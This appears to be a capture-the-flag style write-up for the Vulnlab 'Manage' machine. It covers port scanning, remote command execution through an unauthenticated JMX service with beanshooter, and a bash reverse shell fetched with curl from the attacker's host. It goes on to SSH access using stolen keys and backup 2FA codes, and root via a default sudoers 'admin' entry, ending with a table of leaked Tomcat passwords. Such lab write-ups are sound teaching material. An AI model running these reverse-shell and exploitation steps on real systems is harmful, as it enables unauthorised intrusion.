

This is the write-up for the Manage machine from Vulnlab.

# Enumeration

First, we start executing a full port scan on the machine.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/manage]
╰─ $ sudo nmap -v -sS -Pn -p- --min-rate=300 --max-rate=500 10.10.79.166
```



Now, we execute a port scan just on the open ports found on the last scan.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/manage]
╰─ $ sudo nmap -vv -sV -sC -Pn -p 22,2222,8080,35613,43645 -oA nmap/manage 10.10.79.166
```


Accessing the web service on port 8080, we got a Tomcat server running.


The version of the Tomcat running is 10.1.19. Searching for some public exploits, we haven’t found anything useful. We start to enumerate the service on port 2222, which is a Java JMX. Searching on the Internet about this service, we could find a tool that enumerates and exploit, if the service was vulnerable, the entire Java JMX. We search for `JMX Exploit RCE` on the Google, and we found the link: [https://swisskyrepo.github.io/PayloadsAllTheThings/Java RMI/](https://swisskyrepo.github.io/PayloadsAllTheThings/Java%20RMI/). We found a tool named beanshooter (https://github.com/qtc-de/beanshooter), and download the latest release.

After downloaded the tool, we enumerate the host as the following:

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/manage/exploitation/jmx]
╰─ $ java -jar beanshooter-4.1.0-jar-with-dependencies.jar enum 10.10.115.94 2222
```


As we can see, the JMX installed on the host is misconfigured, because it is not required authentication. We can just use the same tool to execute remote commands on the victim host. As well as, we could leak the Tomcat users’ credentials


# Exploitation

### **CRITICAL     A05:2021 – Security Misconfiguration - (OWASP TOP 10)**

 We exploit the host, and gained unauthorized access in two steps:

1. We create our malicious bash reverse shell, and upload to the machine using the beanshooter tool:

```bash
# MALICIOUS REVERSE SHELL
#!/bin/bash
bash -i >& /dev/tcp/10.8.2.220/443 0>&1

# Open a python HTTP server
$ python3 -m http.server 80

# UPLOADING OUR FILE shell.sh
$ java -jar beanshooter-4.1.0-jar-with-dependencies.jar standard 10.10.115.94 2222 exec 'curl http://10.8.2.220/shell.sh -o /tmp/shell.sh'
```


1. We execute our bash reverse shell uploaded to the host through beanshooter tool:

```bash
# Open a netcat listener
$ python3 -m pwncat -lp 443

# Executing our reverse shell on the host
$ java -jar beanshooter-4.1.0-jar-with-dependencies.jar standard 10.10.115.94 2222 exec 'bash /tmp/shell.sh'
```


## Lateral Movement

Checking the /home directory, we are able to check the respective files from the users directories (***useradmin and karl***).


Checking the useradmin’s home directory, we found a backup directory. Verifying the files in this directory, we are able to download the file to our local attack machine:


Extracting the backup file, we have access to the useradmin’s home directory, including the .ssh folder with the SSH keys.


We give the right permissions to the private key file (`chmod 600`), and, when we try to log into the SSH, it asks a verification code.


We have a hidden file (`.google_authenticator`) in the useradmin’s home directory. Reading it, we got some codes from Google Authenticator service.


We were able to log into SSH service using the first verification code in the list.


## Privilege Escalation

We first check the sudo rights for the current user we got.


We can add new users to the operating system (OS) through sudo without need of a password, and the username only can contain alphanumeric characters. If we add any user, for example, th3g3ntl3m4n, and try to add, at the same time, this user to the sudo group, the current execution will ask the useradmin’s password, which is the same password for the Tomcat admin user. But, even if we insert the correct verification code, from the codes list in the `.google_authenticator` file, we can not add the user, because the useradmin is not in the sudoers file.

After searching, it occurs that we are on an Ubuntu installation (`$ uname -a; cat /etc/os-release`), and we search for a standard or default Ubuntu’s sudoers file, which contains an entry to admin user that can execute any commands as root privileges.


So, we just have to add a user named “admin”, and then, logged as admin, execute any commands as root.

```bash
useradmin@manage:~$ sudo /usr/sbin/adduser admin
```


Now, we log as new admin user created, and executes `sudo su`, and enter the password we have defined when we add the admin user before.

```bash
useradmin@manage:~$ su admin
admin@manage:/home/useradmin$ sudo -i su
```


# Appendix

## *1)   Compromised Users*

| USERNAME | PASSWORD | METHOD | NOTES |
| --- | --- | --- | --- |
| manager | `fhErvo2r9wuTEYiYgt` | JMX Enumeration | Tomcat’s user |
| admin | `onyRPCkaG4iX72BrRtKgbszd` | JMX Enumeration | Tomcat’s user |